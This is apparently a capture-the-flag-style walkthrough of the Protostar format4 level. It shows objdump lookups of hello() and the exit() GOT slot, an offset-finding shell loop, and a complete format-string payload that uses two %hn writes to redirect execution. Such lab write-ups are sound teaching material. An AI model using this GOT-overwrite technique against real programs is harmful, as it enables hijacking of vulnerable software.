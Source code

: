 ```lang-clike line-numbers 

int main(int argc, char **argv)
{
  vuln();
}
```

In this level, we need to redirect execution flow to the "unused" hello() function. The easiest way to do it is using the format string vulnerability in **printf(buffer)** to overwrite an entry in the **GOT** table where system function addresses are cached. The only function called after printf is **exit()** so if we overwrite exit address in the GOT table with the hello() address, we will successfully redirect the execution flow to **hello()**. We need to know:
- hello() address
- exit() address in GOT table
- Format Strig offset

**hello()** address:

```lang-bash line-numbers 
user@protostar:~$ objdump -t /opt/protostar/bin/format4 | grep hello
080484b4 g     F .text	0000001e              hello
```

**exit()** address in GOT table:

```lang-bash line-numbers 
user@protostar:~$ objdump -TR /opt/protostar/bin/format4 | grep exit
00000000      DF *UND*	00000000  GLIBC_2.0   _exit
00000000      DF *UND*	00000000  GLIBC_2.0   exit
08049718 R_386_JUMP_SLOT   _exit
08049724 R_386_JUMP_SLOT   exit
```

Format Strig offset:

```lang-bash line-numbers 
user@protostar:~$ for i in {1..200};do echo DDDD%$i\$08x > temp; echo "trying offset $i - `/opt/protostar/bin/format4 < temp`"; done | grep DDDD44444444
trying offset 4 - DDDD44444444
```

We want to write **hello()** address which is too long for a format string attack so we will be using the technique presented in format3.
hello() address is 0x080484b4
We can split it so:
0x0804 = 2052 will be written in the 2 last bytes of the target address -> 0x08049726
0x84b4 = 33972 will be written in the 2 first bytes of the target address -> 0x08049724

Since 33972 > 2052 we need to write 2052 first:

```lang-bash line-numbers 
"\x26\x97\x04\x08"."\x24\x97\x04\x08"."%(2052-8)d"."%4\$hn"."%(33972-2052)d"."%5\$hn"
```

Doing the maths:

```lang-bash line-numbers 
"\x26\x97\x04\x08"."\x24\x97\x04\x08"."%2044d"."%4\$hn"."%31920d"."%5\$hn"
```

